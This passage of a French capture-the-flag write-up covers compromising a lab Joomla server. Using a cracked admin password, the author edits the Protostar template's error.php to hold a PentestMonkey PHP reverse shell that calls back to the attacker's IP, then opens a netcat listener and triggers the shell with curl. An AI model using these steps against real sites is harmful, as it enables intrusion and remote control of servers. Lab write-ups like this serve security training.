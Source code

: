 {{< admonition success "Mot de Passe Trouvé !" >}}
John the Ripper réussit à craquer le hash et révèle le mot de passe : **spiderman123**
{{< /admonition >}}

## **Phase 4 : Accès au Panel Administrateur Joomla**

### **Connexion à l'Interface d'Administration**

Avec les identifiants récupérés, on se connecte à l'interface d'administration Joomla :

```
URL : http://10.10.21.204/administrator/
Utilisateur : jonah
Mot de passe : spiderman123
```

![joomla](/images/imagesdaily/joomla.png)

Bingo ! On est connecté, on continue !

### **Recherche de Points d'Injection de Code**

Pour obtenir un reverse shell, nous devons identifier où injecter du code PHP. Le template par défaut "Protostar" est une cible idéale car nous pouvons modifier ses fichiers.

{{< admonition tip "Stratégie d'Injection" >}}
Navigation : Extensions → Templates → Templates → Protostar → error.php

Le fichier error.php est parfait car il est rarement utilisé et nous pouvons y injecter notre payload PHP.
{{< /admonition >}}

## **Phase 5 : Obtention du Reverse Shell**

### **Injection du Payload PHP**

Remplaçons le contenu du fichier error.php par un reverse shell PHP (PentestMonkey) :

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.14.96.113';  // Notre IP
$port = 4444;          // Port d'écoute
// ... (code complet du reverse shell)
?>
```

### **Déclenchement du Reverse Shell**

```bash
# Configuration de l'écoute
nc -lnvp 4444

# Déclenchement en visitant le fichier error.php
curl http://10.10.21.204/templates/protostar/error.php
```
